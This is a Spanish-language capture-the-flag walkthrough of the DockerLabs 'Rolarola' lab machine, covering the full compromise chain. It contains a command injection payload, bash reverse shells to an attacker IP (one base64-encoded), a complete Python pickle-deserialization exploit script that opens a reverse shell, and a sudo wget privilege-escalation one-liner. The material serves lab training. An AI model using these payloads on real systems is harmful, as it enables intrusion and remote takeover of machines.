









# Rolarola DockerLabs (Intermediate)

## Contexto de la maquina

### Trayectoria Rolarola

<figure><figcaption><p>Trayectoria Rolarola en el contexto de la máquina</p></figcaption></figure>

### Descripción general

La máquina **Rolarola** es un entorno vulnerable de tipo **Linux**, desplegado mediante contenedores, diseñado para poner en práctica técnicas de **explotación web**, **ejecución remota de comandos (RCE)**, **movimiento lateral**, **deserialización insegura en Python** y **escalada de privilegios** hasta **root**.

El escenario simula una aplicación web aparentemente sencilla, pero con múltiples fallos de seguridad encadenables que permiten comprometer completamente el sistema. La explotación requiere tanto análisis manual como comprensión del código fuente y abuso de configuraciones inseguras del sistema operativo.

El nivel de dificultad de la máquina puede considerarse **medio**, ya que combina vulnerabilidades comunes con técnicas más avanzadas como la explotación de `pickle` y el abuso de binarios permitidos por `sudo`.

### Objetivo de la máquina

El objetivo principal es obtener acceso **root** a la máquina mediante el encadenamiento de varias vulnerabilidades, siguiendo una progresión lógica:

1. Acceso inicial vía aplicación web
2. Ejecución remota de comandos como usuario `apache`
3. Escalada a usuario intermedio (`matsi`)
4. Escalada final de privilegios a `root`

### Vulnerabilidades identificadas

A continuación se enumeran las vulnerabilidades explotadas durante el compromiso de la máquina, junto con su identificación y criticidad.

<figure><figcaption><p>Vulnerabilidad RCE</p></figcaption></figure>

<figure><figcaption><p>Vulnerabilidad ".git" expuesto</p></figcaption></figure>

<figure><figcaption><p>Vulnerabilidad pickle deserialization (python)</p></figcaption></figure>

<figure><figcaption><p>Vulnerabilidad permisos "sudo"</p></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip rolarola.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh rolarola.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos abiertos:

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

A continuación, lanzamos un escaneo más detallado sobre los puertos encontrados:

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado del escaneo:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-07 10:20 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000064s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.66 ((Unix))
|_http-server-header: Apache/2.4.66 (Unix)
|_http-title: Mi primer web
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.21 seconds
```

Observamos que únicamente está abierto el puerto `80`, donde normalmente se aloja una página web. El reporte indica que se trata de un servidor `Apache`.

Accedemos a la web desde el navegador:

```
URL = http://<IP>/
```

Vista inicial de la web:

<figure><figcaption><p>Muestra de la web inicial</p></figcaption></figure>

Se trata de una web bastante sencilla. Sin embargo, resulta curioso que permite introducir un nombre y muestra el siguiente mensaje:

```
Hola diseo, bienvenido 😎

Tu nombre ha sido almacenado por seguridad
```

Este mensaje nos da una pista clara de que el input del usuario se está almacenando en alguna parte del servidor. Por ello, vamos a probar un **Command Injection** simple para comprobar si es vulnerable.

## Escalate user apache

<figure><figcaption><p>Criticidad RCE Vuln.</p></figcaption></figure>

### Vulnerabilidad RCE por Command Injection

Probamos el siguiente payload en el campo **Nombre**:

```
Nombre: test;whoami
```

Al enviar este payload, observamos lo siguiente:

<figure><figcaption><p>Resultado RCE (Sin ser visualizado)</p></figcaption></figure>

Aparentemente solo muestra `test`, lo cual puede ser una buena señal, ya que el segundo comando podría estar siendo interpretado internamente.\
Si pulsamos el botón **No tocar**, en lugar de ver `test` veremos el resultado del segundo comando (`whoami`):

<figure><figcaption><p>Resultado RCE ejecutado</p></figcaption></figure>

Esto confirma que el comando se está ejecutando por detrás con el usuario `apache`. Para confirmarlo aún más, probamos un `ls` simple:

```
Nombre: test;ls
```

Tras enviar el payload y pulsar **No tocar**, obtenemos:

<figure><figcaption><p>Resultado RCE (Confirmación)</p></figcaption></figure>

Vemos que funciona correctamente, por lo que procedemos a explotar el `RCE` para obtener una **reverse shell**.

### Obtención de reverse shell

Primero, codificamos la `reverse shell` en `base64` para mejorar la fiabilidad del payload:

```shell
echo "bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1" | base64 -w 0
```

Resultado:

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUuMjMwLzc3NzcgMD4mMQ==
```

Ahora usamos este payload para decodificarlo y ejecutarlo directamente en el servidor:

```
Nombre: test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUuMjMwLzc3NzcgMD4mMQ== | base64 -d | bash
```

Antes de enviarlo, nos ponemos a la escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

Tras enviar el payload y pulsar el botón correspondiente, volvemos a la escucha y observamos:

```
listening on [any] 7777 ...
connect to [192.168.5.230] from (UNKNOWN) [172.17.0.2] 60588
bash: cannot set terminal process group (10): Not a tty
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
5f49cdc74ad9:/var/www/localhost/htdocs$ whoami
whoami
apache
```

La `reverse shell` ha funcionado correctamente. Ahora procedemos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user matsi

<figure><figcaption><p>Criticidad ".git" expuesto Vuln.</p></figcaption></figure>

Tras enumerar el sistema durante un rato, encontramos un directorio `.git` en `/opt`:

```
total 12
drwxr-xr-x    1 root     root          4096 Dec 29 06:56 .
drwxr-xr-x    1 root     root          4096 Jan  7 09:19 ..
drwxr-sr-x    7 root     root          4096 Dec 29 06:56 .git
```

Podemos acceder al directorio `.git`, pero para analizarlo con más comodidad lo vamos a transferir a nuestra máquina atacante. Para ello, lo comprimimos y codificamos en `base64`:

```shell
tar -czf - .git | base64
```

Output (recortado):

```
H4sIAAAAAAAAA+w8+3vTxpb91forpoqX2MHyKw9uA4ENIW2zt5B+ISx3v1KCLI1tNbak6kGaS/nf
9zxmpJHsPICQu3cbfV9AlmbOnDlz3nNG3UmQ9b75ule/3x8+2NzE//Gq/0/3g83BcGNjuN7vb33T
H/Q3BhvfiM2vjBddeZq5iRDfJFGUXdbuqvf/plcX13/v8Pnzg+OT/WcHx89f/nDjY+ACb21sXLz+
w6Gx/vAcbrc2vxH9G8dkyfUXX//ngYiTYC4T4UXzeZA9sf7VGN1dt3mR/CdynH5FI/Bp+h/lf7C+
sXmn/2/jKtd/Kl3/63DBp6//cGN9cLf+t3HV13/upplMbnaMK+3/5qC2/utbG4M7+38b12DwnfS3
HvSlBypXbsnvxu76cMsdrn83evBgtCndvw1Gg8HIvXML/n9epfxn7uQrOQGfof/X++t3+v82Llr/
aRSdfkUH8DP8v807+387l7H+qQx9OXeDmfPenQW+m8lu6s7jmfzSMXCBL1n/jY3+Rm39tza2HtzZ
/9u4Vr7tjYKwl04ta0XshkL+QUsukCVE6iVBnIksEpojhCtiN/OmouWGfi9K1K9UJoFM22Ikx1Ei
ARLyUhBORJCJ94EriK261gq8OZ5q4NMon/kwILQ5C7KpCKPQ+adMIgErkuWpcMfgiYogTXOE5IbC
jeMkipMA8ABAc5mm7kSKYIyjnLlhliKmcSLfyxCQhnFo2BbgNU6iOSCHcACzTGESCRm6I5hsNg1S
...
```

En la máquina atacante, reconstruimos el repositorio de la siguiente forma:

```shell
echo "H4sIAAAAAAAAA+w8+3vTxpb91forpoqX2MHyKw9uA4ENIW2zt5B+ISx3v1KCLI1tNbak6kGaS/nf
9zxmpJHsPICQu3cbfV9AlmbOnDlz3nNG3UmQ9b75ule/3x8+2NzE//Gq/0/3g83BcGNjuN7vb33T
H/Q3BhvfiM2vjBddeZq5iRDfJFGUXdbuqvf/plcX13/v8Pnzg+OT/WcHx89f/nDjY+ACb21sXLz+
w6Gx/vAcbrc2vxH9G8dkyfUXX//ngYiTYC4T4UXzeZA9sf7VGN1dt3mR/CdynH5FI/Bp+h/lf7C+
sXmn/2/jKtd/Kl3/63DBp6//cGN9<RESTO DE BASE64>" | base64 -d | tar -xzf -
```

Al listar el contenido, vemos:

```
rwxr-xr-x root  root  4.0 KB Wed Jan  7 11:22:24 2026 .
drwxr-xr-x diseo diseo 4.0 KB Wed Jan  7 10:16:27 2026 ..
drwxr-sr-x root  root  4.0 KB Mon Dec 29 07:56:06 2025 .git
```

Todo se ha extraído correctamente, por lo que podemos analizar el repositorio con mayor detalle.

### Vulnerabilidad pickle deserialization

<figure><figcaption><p>Criticidad pickle deserialization Vuln.</p></figcaption></figure>

Listamos los archivos versionados en el repositorio:

```shell
git ls-files
```

Resultado:

```
app.py
objetivos.bin
```

El archivo `app.py` resulta especialmente interesante. Vamos a inspeccionar el contenido del `HEAD`:

```shell
git show HEAD
```

Código relevante:

```
commit 119ed670ec345e6e9fa326a239b77b5ea81b11ba (HEAD -> master)
Author: matsi <matsi@chain.dl>
Date:   Mon Dec 29 06:55:45 2025 +0000

    Mi primer commit?

diff --git a/app.py b/app.py
new file mode 100644
index 0000000..39ccbfa
--- /dev/null
+++ b/app.py
@@ -0,0 +1,80 @@
+import socket
+import pickle
+import os
+
+HOST = "127.0.0.1"
+PORT = 6969
+DATA_FILE = "objetivos.bin"
+
+
+def send(conn, msg):
+    conn.sendall(msg.encode())
+
+
+def recv_text(conn):
+    return conn.recv(4096).decode(errors="ignore").strip()
+
+
+def recv_bytes(conn):
+    return conn.recv(4096)
+
+
+def guardar_objetivo(blob):
+    with open(DATA_FILE, "ab") as f:
+        size = len(blob).to_bytes(4, "big")
+        f.write(size + blob)   # guarda RAW, no pickle
+
+
+def leer_objetivos():
+    objetivos = []
+
+    if not os.path.exists(DATA_FILE):
+        return objetivos
+
+    with open(DATA_FILE, "rb") as f:
+        while True:
+            size_bytes = f.read(4)
+            if not size_bytes:
+                break
+
+            size = int.from_bytes(size_bytes, "big")
+            data = f.read(size)
+
+            objetivos.append(pickle.loads(data))
+
+    return objetivos
+
+
+with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
+    s.bind((HOST, PORT))
+    s.listen(1)
+    print(f"[+] Escuchando en {HOST}:{PORT}")
+
+    while True:
+        conn, addr = s.accept()
+        with conn:
+            send(conn, "1) Leer objetivos\n2) Escribir nuevo objetivo\n> ")
+            opcion = recv_text(conn)
+
+            if opcion == "1":
+                send(conn, "\n--- OBJETIVOS ---\n")
+                objetivos = leer_objetivos()
+                for o in objetivos:
+                    send(conn, f"- {o}\n")
+                send(conn, "\n")
+
+            elif opcion == "2":
+                send(conn, "Nombre: ")
+                recv_text(conn)
+
+                send(conn, "Edad: ")
+                recv_text(conn)
+
+                send(conn, "Objetivo: ")
+                blob = recv_bytes(conn)
+
+                guardar_objetivo(blob)
+                send(conn, "\n[+] Objetivo guardado\n")
+
+            else:
+                send(conn, "Opción inválida\n")
diff --git a/objetivos.bin b/objetivos.bin
new file mode 100644
index 0000000..9be990f
Binary files /dev/null and b/objetivos.bin differ
```

Analizando el código, observamos que es vulnerable a **pickle deserialization**, concretamente en el siguiente fragmento:

```python
objetivos.append(pickle.loads(data))  # ¡DESERIALIZACIÓN SIN VALIDACIÓN!

# ==============================================

blob = recv_bytes(conn)  # Recibe bytes del cliente
guardar_objetivo(blob)   # Guarda en objetivos.bin
```

Antes de explotar la vulnerabilidad, comprobamos que el servicio esté activo en la máquina víctima:

```shell
nenetstat -tulpn | grep 6969
ps aux | grep "python.*app\.py"
nc -zv 127.0.0.1 6969
```

Resultado:

```
netstat: showing only processes with your user ID
tcp        0      0 127.0.0.1:6969          0.0.0.0:*               LISTEN      -

17 matsi     0:00 python3 /home/matsi/proyect/app.py

Connection to 127.0.0.1 6969 port [tcp/*] succeeded!
```

***

> Informacion sobre la Vulnerabilidad pickle deserialization

La deserialización insegura con `pickle` en Python permite ejecución remota de código (RCE) al deserializar datos no confiables. Pickle reconstruye objetos serializados, incluyendo la ejecución de métodos especiales como `__reduce__()`.

**Mecanismo de la Vulnerabilidad**

Cuando `pickle.loads(data)` procesa datos maliciosos, el payload define una clase con el método `__reduce__()` que retorna una tupla `(callable, args)`. Al deserializar, Python ejecuta `callable(*args)`.

**Ejemplo de Exploit**

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('whoami',))

payload = pickle.dumps(RCE())
pickle.loads(payload)  # Ejecuta: os.system('whoami')
```

**Condiciones para la Explotación**

1. Aplicación usa `pickle.loads()` o `pickle.load()`
2. Deserializa datos de entrada del usuario sin validación
3. No hay lista blanca de clases permitidas

**Boceto de referencia**

<figure><figcaption><p>Estructura del ataque (Boceto)</p></figcaption></figure>

***

### Explotación de pickle deserialization

Creamos un pequeño script en `python3` para obtener una `reverse shell`:

```shell
cat > /tmp/revshell_exploit.py << 'EOF'
import socket
import pickle
import os
import time

class ReverseShell:
    def __reduce__(self):
        # Reverse shell directa a 192.168.5.230:4444
        # Usando diferentes payloads por si uno falla
        cmd = ('/bin/bash -c "bash -i >& /dev/tcp/192.168.5.230/4444 0>&1 &"')
        return os.system, (cmd,)

def send_exploit():
    host = "127.0.0.1"
    port = 6969
    
    print("[+] Creando payload de reverse shell...")
    payload = pickle.dumps(ReverseShell())
    print(f"[+] Payload size: {len(payload)} bytes")
    
    print(f"[+] Conectando a {host}:{port}...")
    
    try:
        # Paso 1: Guardar payload
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        
        # Recibir menú
        s.recv(1024)
        # Opción 2: Escribir nuevo objetivo
        s.send(b"2\n")
        
        # Nombre
        s.recv(1024)
        s.send(b"revshell\n")
        
        # Edad
        s.recv(1024)
        s.send(b"0\n")
        
        # Objetivo
        s.recv(1024)
        print("[+] Enviando payload...")
        s.send(payload)
        s.send(b"\n")  # Terminar
        
        resp = s.recv(1024).decode()
        print(f"[+] Respuesta: {resp}")
        s.close()
        
        print("[+] Payload guardado. Esperando 2 segundos...")
        time.sleep(2)
        
        # Paso 2: Desencadenar deserialización
        print("[+] Activando reverse shell...")
        s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s2.connect((host, port))
        s2.recv(1024)
        s2.send(b"1\n")  # Leer objetivos (deserializa)
        
        try:
            # Intentar leer respuesta (puede fallar si se ejecuta shell)
            s2.settimeout(2)
            resp2 = s2.recv(4096).decode()
            print(f"[+] Respuesta deserialización: {resp2[:100]}...")
        except socket.timeout:
            print("[+] Deserialización ejecutada (timeout esperado)")
        except Exception as e:
            print(f"[+] Error de lectura: {e}")
        
        s2.close()
        
        print("[+] Reverse shell enviada. Revisa tu listener...")
        
    except ConnectionRefusedError:
        print("[-] No se puede conectar al servicio")
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    send_exploit()
EOF
```

Nos ponemos a la escucha:

```shell
nc -lvnp <PORT>
```

Ejecutamos el `exploit`:

```shell
python3 /tmp/revshell_exploit.py
```

Resultado:

```
[+] Creando payload de reverse shell...
[+] Payload size: 98 bytes
[+] Conectando a 127.0.0.1:6969...
[+] Enviando payload...
[+] Respuesta:
[+] Objetivo guardado

[+] Payload guardado. Esperando 2 segundos...
[+] Activando reverse shell...
[+] Respuesta deserialización:
--- OBJETIVOS ---
...
[+] Reverse shell enviada. Revisa tu listener...
```

En la escucha:

```
listening on [any] 4444 ...
connect to [192.168.5.230] from (UNKNOWN) [172.17.0.2] 60742
bash: cannot set terminal process group (460): Not a tty
bash: no job control in this shell
5f49cdc74ad9:~$ whoami
whoami
matsi
```

Ya somos el usuario `matsi`. Procedemos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

<figure><figcaption><p>Criticidad privilegios "sudo" Vuln.</p></figcaption></figure>

Ejecutamos `sudo -l` y observamos lo siguiente:

```
Matching Defaults entries for matsi on 5f49cdc74ad9:

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for matsi:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User matsi may run the following commands on 5f49cdc74ad9:
    (ALL : ALL) NOPASSWD: /usr/bin/wget
```

Podemos ejecutar `wget` como `root`, lo cual es crítico. Aprovechamos esta mala configuración para escalar privilegios:

```shell
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

Resultado final:

```
whoami
root
```

Con esto, obtenemos acceso como `root` y damos por finalizada la máquina.
